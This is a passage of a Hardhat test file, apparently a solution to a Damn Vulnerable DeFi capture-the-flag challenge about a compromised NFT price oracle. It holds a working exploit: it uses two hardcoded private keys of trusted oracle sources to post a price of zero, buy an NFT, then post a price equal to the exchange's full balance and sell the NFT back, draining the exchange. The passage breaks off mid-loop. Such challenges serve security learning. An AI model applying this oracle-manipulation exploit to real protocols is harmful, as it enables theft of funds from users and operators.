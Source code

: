 ``` tsx
        await ethers.provider.send("hardhat_setBalance", [
            attacker.address,
            "0x16345785d8a0000", // 0.1 ETH
        ]);
        expect(
            await ethers.provider.getBalance(attacker.address)
        ).to.equal(ethers.utils.parseEther('0.1'));

        // Deploy the oracle and setup the trusted sources with initial prices
        this.oracle = await TrustfulOracleFactory.attach(
            await (await TrustfulOracleInitializerFactory.deploy(
                sources,
                ["DVNFT", "DVNFT", "DVNFT"],
                [INITIAL_NFT_PRICE, INITIAL_NFT_PRICE, INITIAL_NFT_PRICE]
            )).oracle()
        );

        // Deploy the exchange and get the associated ERC721 token
        this.exchange = await ExchangeFactory.deploy(
            this.oracle.address,
            { value: EXCHANGE_INITIAL_ETH_BALANCE }
        );
        this.nftToken = await DamnValuableNFTFactory.attach(await this.exchange.token());
    });

    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        const keys = [
            '0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9',
            '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48'
        ];

        var walletList = [];    
        for (let i = 0; i < keys.length; i++) {
            walletList.push(new ethers.Wallet(keys[i], ethers.provider));
        }

        // update NFT Pirce 0
        var txList = [];
        for (let i = 0; i < walletList.length; i++) {
            txList.push(await this.oracle.connect(walletList[i]).postPrice("DVNFT", 0));
        }
        
        // buy
        await this.exchange.connect(attacker).buyOne(
            {
                value: ethers.utils.parseEther("0.001")
            }
        );

        // exchnage pill
        const sellAmt = await ethers.provider.getBalance(this.exchange.address);
        
        for (let i = 0; i < walletList.length; i++) {
            await this.oracle.connect(walletList[i]).postPrice("DVNFT", sellAmt);
        }

        // approve exchange nft
        await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
        await this.exchange.connect(attacker).sellOne(0);

        // update price nft
        for (let i = 0; i < walletList.length; i++) {
```